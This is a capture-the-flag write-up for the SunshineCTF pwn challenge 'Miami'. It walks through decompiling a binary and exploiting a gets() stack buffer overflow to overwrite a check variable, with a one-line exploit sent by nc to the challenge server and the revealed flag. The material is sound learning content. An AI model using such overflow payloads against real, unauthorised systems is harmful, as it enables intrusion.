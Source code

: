Miami

**Author:** Oreomeister

**Description:**  
Dexter is the prime suspect of being the Bay Harbor Butcher, we break into his login terminal and get the proof we need!

**Challenge server:**  
`nc chal.sunshinectf.games 25601`

---

# Miami — Writeup

**Category:** pwn / binary exploitation

## Challenge Summary

Dexter is suspected to be the Bay Harbor Butcher. The binary `miami` asks for "Dexter's password"; with a wrong password it prints `Invalid credentials!`, but if we manage to control an internal variable the program prints `Access granted...` and reveals the proof/flag. The binary is a 64-bit PIE ELF and contains a vulnerable `vuln()` function using `gets()`.

---

## Reconnaissance

Run some basic commands to learn about the target:

```bash
file miami
# ELF 64-bit LSB PIE executable, x86-64, dynamically linked

strings ./miami
# shows functions: gets, puts, fopen, fread, read_flag, and a reference to flag.txt
```

The presence of `gets` in the strings strongly suggests a classic stack-based buffer overflow vulnerability.

---

## Static Analysis (i used ghidra)

Decompiled function `vuln()`:

```c
void vuln(void)
{
    char local_58[76];
    int local_c;

    local_c = -0x21524111;
    memset(local_58, 0, sizeof(local_58));

    printf("Enter Dexter's password: ");
    gets(local_58);

    if (local_c == 0x1337c0de) {
        puts("Access granted...");
        read_flag();
    } else {
        puts("Invalid credentials!");
    }
    return;
}
```

**Key observations:**

- `local_58` is a 76-byte buffer on the stack.  
- `local_c` is a 4-byte integer located immediately after `local_58`.  
- `gets(local_58)` allows reading input without length checks → classic stack buffer overflow.  
- If `local_c == 0x1337c0de`, the program prints `Access granted...` and calls `read_flag()`.

On x86_64, integers are 4 bytes, little-endian. Thus `0x1337c0de` in memory is:

```
\xde\xc0\x37\x13
```

---

## Exploitation Plan

1. Fill the buffer with exactly 76 bytes to reach `local_c`.  
2. Overwrite `local_c` with `0x1337c0de` (little-endian).  
3. Send a newline to terminate input.  
4. Program prints `Access granted...` and reveals the flag.

**Payload layout:**

```
[A x 76] + [\xde\xc0\x37\x13] + [\n]
```

---

## One-line Exploit (Remote with nc)

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\xde\xc0\x37\x13" + b"\n")' | nc chal.sunshinectf.games 25601
```

**Expected output:**

```
Enter Dexter's password: Access granted...
sun{DeXtEr_was_!nnocent_Do4kEs_w4s_the_bAy_hRrb0ur_bu7cher_afterall!!}
```
